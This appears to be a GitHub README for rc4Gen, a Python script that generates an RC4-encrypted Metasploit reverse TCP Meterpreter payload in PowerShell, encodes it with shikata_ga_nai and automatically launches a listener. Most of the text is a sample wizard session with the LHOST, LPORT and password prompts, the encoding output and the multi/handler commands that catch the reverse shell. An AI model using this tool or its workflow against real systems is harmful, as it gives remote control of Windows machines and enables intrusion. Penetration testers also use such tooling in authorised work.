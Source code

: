 # rc4Gen
    This is a Unicorn like script that...
    Generates a MSF Reverse TCP RC4 payload encoded in Powershell.
    Additionally, it will copy the payload to your clipboard and automagically launch the MSF listener.
    rc4Gen.py supports both command-line parameters and a wizard with interactive menu driven options.

Installation:
***
git clone 
cd rc4Gen
python rc4Gen.py

Usage(CLI):
***
        ...

Usage(Wizard):
***
Example:

External IP: 100.255.255.255
Internal IP: 10.37.242.7

You did not specifiy the LHOST, wizard menu has launched:

Enter LHOST for payload[100.255.255.255]:10.37.242.7
ENTERED: "10.37.242.7"

Enter LPORT for payload[443]:
ENTERED: "443"

Enter RC4PASSWORD for payload[rc4M4g1c]:
ENTERED: "rc4M4g1c"

TIP: Verbosity [ON] will print payload to STDOUT.
TIP: Verbosity [OFF] will copy payload to Clipboard.
Verbosity[OFF]:
ENTERED: "OFF"

No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 421 (iteration=0)
x86/shikata_ga_nai chosen with final size 421
Payload size: 421 bytes
Saved as: rc4_payload.ps1

Payload Copied to Clipboard:

PAYLOAD: reverse_tcp_rc4
LHOST: 10.37.242.7
LPORT: 443
RC4PASSWORD: rc4M4g1c
TIP: Listener [ON] will automagically launch a MSF listener.
listener[ON]:
ENTERED: "ON"

[*] Processing rc4_listener.rc for ERB directives.
resource (rc4_listener.rc)> use multi/handler
resource (rc4_listener.rc)> set PAYLOAD windows/meterpreter/reverse_tcp_rc4
PAYLOAD => windows/meterpreter/reverse_tcp_rc4
resource (rc4_listener.rc)> set LHOST 10.37.242.7
LHOST => 10.37.242.7
resource (rc4_listener.rc)> set LPORT 443
LPORT => 443
resource (rc4_listener.rc)> set Rc4PASSWORD rc4M4g1c
Rc4PASSWORD => rc4M4g1c
resource (rc4_listener.rc)> set ExitOnSession false
ExitOnSession => false
resource (rc4_listener.rc)> set AutoRunScript multi_console_command -rcautorun_commands.rc
AutoRunScript => multi_console_command -rcautorun_commands.rc
resource (rc4_listener.rc)> exploit -j -z
[*] Exploit running as background job.

[*] Started reverse TCP handler on 10.37.242.7:443 
[*] Starting the payload handler...
msf exploit(handler) > exit
        ...

To Do:
***
    Add try/expect statment for the msfpro/msvenom alternate path
    Create help function.
